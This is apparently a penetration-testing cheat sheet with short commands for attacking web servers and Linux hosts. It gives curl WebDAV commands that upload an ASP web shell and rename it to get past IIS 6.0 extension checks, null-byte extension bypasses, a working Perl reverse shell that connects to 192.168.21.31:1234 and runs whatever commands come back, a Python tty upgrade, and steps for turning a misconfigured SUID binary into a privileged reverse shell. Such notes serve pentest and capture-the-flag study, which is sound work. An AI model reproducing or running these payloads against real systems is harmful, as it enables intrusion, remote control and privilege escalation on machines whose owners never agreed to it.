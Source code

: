 # cURL

IF MODIFY, PUT, MOVE, DELE etc HEADERS are misconfigured.

#### UPLOAD
```
Curl -T ‘location of file’ ‘http://target/name
e.g
      curl -T 'shell.asp' 'http://<IPADDRESS>/shell.asp'
```

#### RENAME

CAN USE THIS TO BYPASS FILE EXTENSIONS Restrictions

```
curl -X MOVE --header 'Destination:http://<TARGETIPADDRESS>/shell.asp;.txt' 'http://<TARGETIPADDRESS>/shell.txt'
e.g
      changing from shell.txt --> shell.asp;.txt

p.s bypasses IIS 6.0 File extensions 
```

#### CREATE DIRECTORY
```
curl -X MKCOL 'http://<IPADDRESS>/test'
```

# NULL BYTES

Bypass File Extentension Restrictions

```
%23
%00
```

# ESCAPE JAIL SHELL

# USING PERL REVERSE SHELL INTO PYTHON TTY

```
/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
/usr/bin/python -c 'import pty; pty.spawn("/bin/sh")'

```

# EXPLOITING SUID FILES SYMLINK
Using strings  "exploit.file"
  - Find a dependency

Change EXPORT path to /tmp/
  - Create a binary file with the same name as dependency
  - Have this file create a reverse shell
Run the misconfigured SUID file, it will return a reverse shell using SUID

